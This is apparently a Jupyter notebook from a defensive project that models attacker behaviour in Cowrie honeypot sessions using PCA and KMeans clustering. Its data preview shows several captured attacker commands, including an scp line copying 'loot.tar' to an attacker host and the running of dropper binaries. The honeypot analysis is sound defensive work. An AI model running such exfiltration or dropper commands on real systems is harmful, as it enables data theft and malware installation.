# Sentinel Grid - Session Behavior Modeling
This notebook analyzes session-level attacker behavior using clustering and anomaly detection techniques.

It uses:
- Honeypot session features extracted from Cowrie logs
- External attack or intrusion datasets transformed into the same feature format

### Objectives
1. Group similar attacker/session behaviors
2. Detect unusual sessions or possible indicators of compromise
3. Validate the full pipeline from raw logs/datasets to features to model outputs
4. Export results in a format suitable for backend integration
### Future Expansion

Stretch Goal: Once sufficient labeled data is collected and validated, this notebook will be extended to include:

- Supervised classification models 
- Attack-type prediction  
- Feature importance analysis  
- Model evaluation metrics 


In [1]:
import json
import numpy as np
import pandas as pd 
import warnings
import seaborn as sns
import matplotlib.pyplot as plt
from pathlib import Path
from sklearn.preprocessing import StandardScaler
from sklearn.impute import SimpleImputer
from sklearn.decomposition import PCA
from sklearn.cluster import KMeans, DBSCAN
from sklearn.metrics import silhouette_score
from sklearn.ensemble import IsolationForest
from sklearn.neighbors import LocalOutlierFactor

sns.set_style("whitegrid")
plt.rcParams["figure.figsize"] = (8, 5)

## Load Session Feature Tables
This loads the processed session-level feature csvs produced by the notebook `01_honeypot pipeline` 

In [2]:
data_dir= Path("../data/TESToutputs/")

cowrie_path = data_dir / "cowrie_features.csv"
cowrie_df= pd.read_csv(cowrie_path)
cowrie_df["source"] = "cowrie"

print("Cowrie shape:", cowrie_df.shape)
cowrie_df.head()

Cowrie shape: (11, 39)


,session,src_ip,session_start,session_end,duration,reported_session_duration,reported_tty_duration,cmd_count,unique_cmds,cmd_failed_count,...,cmd_failed_count.1,failed_cmds_used,is_local_src,contains_recon_cmds,contains_install_cmds,contains_nav_cmds,contains_exit_cmd,file_download_count,file_upload_count,source
0,19ddfa08ac44,91.92.109.12,2026-03-04 13:05:01+00:00,2026-03-04 13:05:04.500000+00:00,3.5,3.5,0.0,0,0,0,...,0,[],0,0,0,0,0,0,0,cowrie
1,2f8ab194d0e8,198.18.0.77,2026-03-04 14:28:00+00:00,2026-03-04 14:28:03+00:00,3.0,3.0,0.0,0,0,0,...,0,[],0,0,0,0,0,0,0,cowrie
2,5e7f9d0aa131,66.240.219.146,2026-03-04 14:40:30+00:00,2026-03-04 14:40:37.900000+00:00,7.9,7.8,7.4,4,4,1,...,1,['scp loot.tar attacker@198.51.100.77:/tmp/loo...,0,1,1,1,0,0,1,cowrie
3,77ca82f0e1ab,45.83.64.12,2026-03-04 12:40:10+00:00,2026-03-04 12:40:18.500000+00:00,8.5,8.5,8.3,4,4,1,...,1,['./dropper.sh'],0,1,1,0,0,0,0,cowrie
4,7c99d0af04c1,172.104.18.91,2026-03-04 14:12:10+00:00,2026-03-04 14:12:21.200000+00:00,11.2,11.2,10.9,6,6,1,...,1,['./arm7'],0,1,1,1,0,1,1,cowrie


## Feature Selection
Double check and use only numeric count features for clustering and anomaly detection

In [25]:
feature_cols= [
    "duration",
    "reported_session_duration",
    "reported_tty_duration",
    "cmd_count",
    "unique_cmds",
    "cmd_failed_count",
    "unique_failed_cmds",
    "cmds_per_min",
    "cmd_failed_per_min",
    "cmd_failed_ratio",
    "login_success",
    "login_fail",
    "fails_per_min",
    "unique_users",
    "unique_pass",
    "pw_entropy_per_char",
    "pw_entropy_total",
    "pw_normalized_entropy",
    "pw_length_mean",
    "pw_unique_chars_mean",
    "pw_total_strength",
    "has_successful_login",
    "has_any_commands",
    "has_failed_commands",
    "commands_used",
    "failed_cmds_used",
    "is_local_src",
    "contains_recon_cmds",
    "contains_install_cmds",
    "contains_nav_cmds",
    "contains_exit_cmd",
    "file_download_count",
    "file_upload_count",
]
numeric_cols = [c for c in feature_cols if c in cowrie_df.columns]
model_df = cowrie_df[numeric_cols + ["session", "source"]].copy()
for col in numeric_cols:
    model_df[col] = pd.to_numeric(model_df[col], errors='coerce')
print(f"Found {len(numeric_cols)} numeric features for modeling")


Found 33 numeric features for modeling


Input missing values using the median and standardize features before clustering

In [ ]:
imputer= SimpleImputer(strategy="median")
X_imputed= imputer.fit_transform(model_df[numeric_cols])

scaler= StandardScaler()
X_scaled= scaler.fit_transform(X_imputed)

print("Preprocessing complete. Model matrix shape:", X_scaled.shape)

Preprocessing complete. Model matrix shape: (11, 33)


c:\Users\Yama\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\impute\_base.py:641: UserWarning: Skipping features without any observed values: ['commands_used' 'failed_cmds_used']. At least one non-missing value is needed for imputation with strategy='median'.
  warnings.warn(


### Principal Componenet Analysis

Explained variance ratio: [0.52576722 0.21387969]




In [31]:
pca= PCA(n_components=2, random_state= 42)
X_pca= pca.fit_transform(X_scaled)

model_df["pca1"] = X_pca[:, 0]
model_df["pca2"] = X_pca[:, 1]
print("Explained variance ratio:", pca.explained_variance_ratio_)
sns.scatterplot(data=model_df, x="pca1", y="pca2", hue="source", alpha=0.7)
plt.title("PCA Projection of Session Behavior")
plt.show()

### KMeans Clustering



In [32]:
inertias= []
k_values= range(2, 9)
for k in k_values:
    km= KMeans(n_clusters=k, random_state=42, n_init=10)
    km.fit(X_scaled)
    inertias.append(km.inertia_)

plt.plot(list(k_values), inertias, marker="o")
plt.xlabel("k")
plt.ylabel("Inertia")
plt.title("KMeans Elbow Plot")
plt.show()

In [33]:
kmeans= KMeans(n_clusters=4, random_state=42, n_init=10)
model_df["kmeans_cluster"] = kmeans.fit_predict(X_scaled)

if len(set(model_df["kmeans_cluster"])) > 1:
    print("Silhouette score:", silhouette_score(X_scaled, model_df["kmeans_cluster"]))

Silhouette score: 0.286284046077765
